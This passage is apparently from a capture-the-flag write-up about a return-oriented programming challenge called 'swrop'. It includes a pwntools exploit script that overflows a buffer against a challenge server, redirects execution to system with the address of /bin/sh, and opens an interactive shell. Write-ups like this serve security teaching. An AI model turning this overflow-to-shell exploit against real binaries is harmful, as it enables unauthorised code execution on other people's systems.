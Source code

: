 ```yaml
---
title: Pop Instructions Should be Illegal
date: "2020-07-19 19:10:31.582772"
description: "Using ROP technique to exploit binaries really makes you realize how amazing the 'pop' instruction is"
categories: ["code"]
---
```


# Pop Instructions Should be Illegal

_- Atharv Damle _

---

## swrop

---

FLAG{REDACTED}

---

Simple W(??) rop. For this one all we need is to redirect code execution, using a simple buffer overflow. Only difference is that there is no `win` function.

1. The `system` call is already in the `not_call` function
2. `/bin/sh` is in the data region for some reason.

With that in mind, we call `system`, putting the address to `/bin/sh` at the top of the stack.

```python
#!/usr/bin/python3

from pwn import *

#p = process('./swrop')
p = remote('plsdonthaq.me', 6001)

padding = b'a' * 0x88
binsh = p32(0x080485f0)
system = p32(0x080484ed)

p.sendline(padding + system + binsh)

p.interactive()
```

## static

---
